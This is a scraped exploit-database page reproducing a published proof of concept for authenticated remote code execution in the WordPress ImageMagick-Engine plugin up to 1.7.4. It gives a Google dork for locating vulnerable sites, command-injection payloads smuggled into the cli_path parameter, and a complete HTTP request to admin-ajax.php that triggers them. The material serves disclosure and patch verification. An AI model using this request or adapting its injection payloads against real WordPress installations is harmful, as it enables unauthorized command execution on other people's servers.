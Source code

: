 ```yaml
---
title: WordPress ImageMagick-Engine 1.7.4 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:168722&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-18
fetch_date: 2025-10-03T20:04:08.611865
---
```


# WordPress ImageMagick-Engine 1.7.4 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress ImageMagick-Engine 1.7.4 Remote Code Execution

2022-10-17 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:168722
# Exploit Title: Wordpress Plugin ImageMagick-Engine 1.7.4 - Remote Code Execution (RCE) (Authenticated)
# Google Dork: inurl:"/wp-content/plugins/imagemagick-engine/"
# Date: Thursday, September 1, 2022
# Exploit Author: ABDO10
# Vendor Homepage: https://wordpress.org/plugins/imagemagick-engine/
# Software Link: https://github.com/orangelabweb/imagemagick-engine/
# Version: <= 1.7.4
# Tested on: windows 10

-- vulnerable section
https://github.com/orangelabweb/imagemagick-engine/commit/73c1d837e0a23870e99d5d1470bd328f8b2cbcd4#diff-83bcdfbbb7b8eaad54df4418757063ad8ce7f692f189fdce2f86b2fe0bcc0a4dR529

-- payload on windows: d&calc.exe&anything
-- on unix : notify-send "done"
-- exploit :

GET /wp/wordpress/wp-admin/admin-ajax.php?action=ime_test_im_path&cli_path=[payload]
HTTP/1.1
Host: localhost
Cookie: wordpress_sec_xx=; wp-settings-time-1=;
wordpress_test_cookie=; wordpress_logged_in_xx=somestuff
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0)
Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://localhost/wp/wordpress/wp-admin/options-general.php?page=imagemagick-engine
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)